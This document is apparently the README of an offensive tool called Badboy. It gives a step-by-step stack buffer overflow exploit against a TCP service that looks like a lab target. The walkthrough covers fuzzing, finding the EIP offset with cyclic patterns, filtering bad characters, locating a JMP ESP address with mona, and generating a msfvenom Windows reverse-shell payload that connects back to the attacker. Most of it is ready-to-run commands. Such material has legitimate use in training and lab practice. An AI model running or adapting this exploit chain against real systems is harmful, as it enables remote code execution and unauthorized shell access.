 # Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supplying the IP, Port and Prefix.
The Prefix can be HTTP POST parameters or a command from a program, e.g in that context Help would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```
![Fuzzing](img/fuzz.png)
## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```
![Inject Cyclic PAttern](img/inject-a-cyclic-pattern-from-stdin.png)

After having injected the cyclic pattern, we can see that the EIP value is being affected, copy the value in EIP
and supply it to **msf-pattern_create**

![Get Cyclic PAttern](img/get-cyclic-char-in-eip.png)
```
msf-pattern_offset -l 1600 -q "35794234"
```
![Get Offset](img/get-offset-from-cyclic-chars.png)

Now that we have found the correct offset, we can supply it to Badboy, to check if EIP will hold the value "CCCC" or "43434343"
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```
![Check Offset](img/checking-offset-for-eip.png)

By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlle EIP, you can move to the next step.
![Check controlled EIP](img/eip-controlled.png)

## Testing and Filtering Bad Char

Bad char can be filtered quickly and easily directly from the shell.
Simply start by providing the Bad char (\x00) or "00" in our case.
All Badchars needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```
![Badchar1](img/inject-testing-badchar-1.png)

Repeat the process until every Bad chars have been filtered out.
![Badchar2](img/inject-testing-badchar-2.png)
![Badchar3](img/inject-testing-badchar-3.png)
![Badchar4](img/inject-testing-badchar-4.png)
![Badchar5](img/inject-testing-badchar-5.png)

## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```
Don't forget to revert the bytes of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the Bad chars, that you have your Offset and your have the value of EIP.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```
![Fuzzing](img/inject-trigger-shell.png)
